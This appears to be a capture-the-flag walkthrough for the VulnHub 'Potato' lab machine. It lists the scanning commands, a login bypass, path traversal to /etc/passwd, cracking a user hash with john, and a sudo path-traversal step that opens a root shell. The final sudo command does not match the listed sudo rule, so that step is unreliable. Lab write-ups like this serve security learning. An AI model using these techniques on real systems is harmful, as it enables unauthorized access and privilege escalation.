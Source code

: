 

# Potate:1 Walkthrough

**VulnHub Link:** [Potate:1](https://www.vulnhub.com/entry/potato-1,529/)
**Difficulty:** Easy
**Release Date:** 2 Aug 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```

in burpsuite change password to --> password[]

and pass cookie found as password then with burpsuite , ../../../../../../etc/passwd found

florianges and webadmin users found

```bash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash

echo "webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/" > hash.txt

john hash.txt --wordlist=rockyou.txt
```
webadmin password --> dragon

user flag captured
```bash
sudo -l --> /bin/nice /notes/*

cp /bin/bash runme.sh

sudo /bin/bash /notes/../home/webadmin/runme.sh
```
root shell opened and root flag captured.

